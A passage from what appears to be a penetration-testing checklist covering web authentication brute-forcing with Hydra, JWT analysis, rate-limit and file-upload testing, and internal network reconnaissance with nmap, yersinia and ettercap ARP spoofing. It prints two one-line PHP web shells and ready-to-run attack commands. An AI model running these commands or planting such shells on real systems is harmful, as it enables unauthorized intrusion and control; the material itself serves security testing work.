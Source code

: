 ### **Phase 3.2: Advanced Web Application Testing**

#### **Authentication & Session Management**
```bash
# Hydra web form brute force
hydra -L users.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# Session fixation testing
# Test cookie security flags
# Test session regeneration

# JWT token analysis
python3 jwt_tool.py [JWT_TOKEN]
```

#### **Business Logic Flaws**
```bash
# Rate limiting testing
for i in {1..100}; do curl -s http://target.com/api/endpoint; done

# Race condition testing
# Parallel request testing with Burp Intruder

# Price manipulation testing
# Quantity/amount parameter tampering
```

#### **File Upload Vulnerabilities**
```bash
# File upload bypass techniques
# .php.jpg double extension
# Content-Type header manipulation
# Magic byte manipulation

# Web shell uploads
<?php system($_GET['cmd']); ?>
<?php eval($_POST['code']); ?>
```

---

## Network Penetration Testing

### **Phase 4.1: Internal Network Reconnaissance**

#### **Network Segmentation Testing**
```bash
# VLAN hopping attempts
yersinia -I

# Network mapping with Nmap
nmap -sn 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16

# ARP spoofing for network discovery
ettercap -T -q -F filter.ef -M arp:remote /192.168.1.1// /192.168.1.100//
```
